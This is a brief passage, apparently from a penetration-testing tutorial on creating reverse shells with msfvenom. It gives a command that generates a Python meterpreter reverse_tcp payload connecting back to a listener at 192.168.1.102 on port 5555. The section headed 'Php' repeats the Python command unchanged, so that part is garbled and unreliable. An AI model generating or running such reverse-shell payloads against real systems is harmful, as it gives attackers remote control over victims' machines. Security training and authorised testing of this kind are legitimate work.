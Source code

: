 # Creating reverse-shells


In the chapter Basics I linked to some reverse shells. Another way to create reverse shells is by using msfvenom.


## Python
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py


## Php

msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py